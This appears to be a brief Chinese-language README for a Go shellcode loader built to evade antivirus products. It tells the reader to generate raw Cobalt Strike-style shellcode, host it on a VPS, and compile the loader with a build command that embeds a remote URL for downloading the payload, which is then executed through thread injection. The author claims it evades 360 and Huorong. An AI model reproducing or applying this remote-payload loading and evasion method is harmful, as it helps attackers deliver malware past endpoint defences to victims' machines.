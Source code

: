 # go加载器bypass
最近刚开始学习go语言写加载器，参考了几篇文章，利用线程注入和-race、载荷分离远程下载shellcode进行编译

1、首先用cs生成raw的shellcode上传到自己的vps服务器上

2、编译：go build -ldflags "-s -w -X main.url=http://xx.xx.xx.xx/payload.bin" -o 1.exe -race shellcode.go

3、VT查杀14，但是截止到目前为止，360与火绒都能bypass

本人刚开始学习免杀，还很菜，此源码参考了https://github.com/fcre1938/goShellCodeByPassVT/blob/main/main.go

欢迎大佬提出建议

